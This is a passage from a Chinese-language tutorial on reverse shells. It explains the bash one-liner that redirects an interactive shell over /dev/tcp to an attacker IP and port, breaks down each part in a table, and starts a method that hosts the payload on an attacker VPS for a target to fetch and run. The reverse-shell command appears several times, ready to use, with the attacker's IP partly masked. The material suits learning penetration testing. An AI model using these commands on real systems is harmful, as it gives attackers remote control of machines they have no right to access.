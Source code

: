 执行效果如下：

![](https://ask.qcloudimg.com/http-save/yehe-5957324/slwdbysybs.png)

image-20210127192540228

**利用 Bash 反弹 shell**
--------------------

个人感觉反弹 shell 最好用的方法就是使用 bash 结合重定向方法的一句话，具体命令如下：

```
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1或bash -c "bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1"# bash -i >& /dev/tcp/攻击机IP/攻击机端口 0>&1

```

以下是针对 Bash 反弹一句话进行了拆分说明：

<table><thead><tr><th></th><th></th></tr></thead><tbody><tr><td><p>bash -i</p></td><td><p>产生一个 bash 交互环境。</p></td></tr><tr><td><p>&gt;&amp;</p></td><td><p>将联合符号前面的内容与后面相结合，然后一起重定向给后者。</p></td></tr><tr><td><p>/dev/tcp/47.xxx.xxx.72/2333</p></td><td><p>Linux 环境中所有的内容都是以文件的形式存在的，其实大家一看见这个内容就能明白，就是让目标主机与攻击机 47.xxx.xxx.72 的 2333 端口建立一个 tcp 连接。</p></td></tr><tr><td><p>0&gt;&amp;1</p></td><td><p>将标准输入与标准输出的内容相结合，然后重定向给前面标准输出的内容。</p></td></tr></tbody></table>

Bash 反弹一句完整的解读过程就是：

Bash 产生了一个交互环境和本地主机主动发起与攻击机 2333 端口建立的连接（即 TCP 2333 会话连接）相结合，然后在重定向个 TCP 2333 会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个 Bash 反弹环境。

**攻击机开启本地监听：**

**目标机主动连接攻击机：**

```
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1

```

执行效果如下：

![](https://ask.qcloudimg.com/http-save/yehe-5957324/1fzd6xewz9.png)

### **Curl 配合 Bash 反弹 shell**

这里操作也很简单，借助了 Linux 中的管道。

首先，在攻击者 vps 的 web 目录里面创建一个 index 文件（index.php 或 index.html），内容如下：

```
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1

```

并开启 2333 端口的监听。

然后再目标机上执行如下，即可反弹 shell：

执行效果如下：
